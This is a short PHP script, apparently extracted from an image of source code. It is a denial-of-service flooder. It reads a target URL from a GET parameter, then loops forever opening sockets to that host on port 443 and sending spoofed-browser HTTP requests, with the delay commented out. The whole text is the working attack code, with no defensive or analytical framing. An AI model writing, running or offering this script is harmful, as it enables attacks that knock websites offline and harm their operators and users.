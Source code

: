 echo 'running';
$url = $_GET['url'];
$parsed_url = parse($url);
$host = $parsed_url['host'];
$path = $parsed_url['path'];

if ($path == "")
        $path = "/";
      
while(1)
{
        $sock = fsockopen($host, 443);
        $pack = "GET $path HTTP/1.1\r\n";
        $pack.= "Host: " .$host. "\r\n";
        $pack.= "User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0\r\n";
        $pack.= "Accept: */*\r\n";
        $pack.= "Accept-Language: en-US,en;q=0.5\r\n";
        $pack.= "Connection: closed\r\n\r\n";
        fputs($sock, $pack);
        fclose($sock);
        //sleep(1);
}

function parse($url){
    if(strpos($url,"://")===false) $url = "http://".$url;
    $info = parse_url($url);
    return $info;
}
